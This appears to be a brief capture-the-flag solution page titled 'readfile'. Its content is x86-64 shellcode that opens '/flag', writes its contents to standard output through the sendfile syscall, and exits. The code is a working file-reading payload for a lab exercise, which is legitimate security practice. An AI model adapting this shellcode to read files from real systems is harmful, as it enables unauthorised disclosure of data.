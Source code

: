 # readfile
```text-plain
mov rbx, 0x00000067616c662f
push rbx
mov rax, 2
mov rdi, rsp
mov rsi, 0
syscall

mov rdi, 1
mov rsi, rax
mov rdx, 0
mov r10, 1000
mov rax, 40
syscall

mov rax, 60
syscall
```

![](readfile/image.png)